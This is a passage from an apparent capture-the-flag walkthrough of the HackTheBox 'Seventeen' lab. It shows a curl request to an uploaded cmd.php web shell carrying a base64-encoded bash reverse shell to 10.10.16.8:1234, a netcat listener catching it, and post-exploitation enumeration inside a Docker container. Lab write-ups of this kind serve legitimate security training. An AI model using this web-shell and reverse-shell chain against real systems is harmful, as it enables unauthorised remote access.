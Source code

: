 ![image-20240305015531220](./Seventeen.assets/image-20240305015531220.png)

```console
└─╼$ curl --get --data-urlencode 'cmd=echo YmFzaCAtYyAiYmFzaCAgLWkgPiYvZGV2L3RjcC8xMC4xMC4xNi44LzEyMzQgMD4mMSIK | base64 -d | bash' 'http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/cmd.php'
----------------------------------------------------------------------------------
└─╼$ sudo rlwrap -cAr nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.11.165] 40442
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@80ffe78df01c:/var/www/html/oldmanagement/files/31234$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@80ffe78df01c:/var/www/html/oldmanagement/files/31234$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
27: eth0@if28: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:11:00:0b brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.11/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
www-data@80ffe78df01c:/var/www/html/oldmanagement/files/31234$ ls -al / | grep docker
<l/oldmanagement/files/31234$ ls -al / | grep docker
-rwxr-xr-x   1 root root    0 Mar  3 18:37 .dockerenv
```
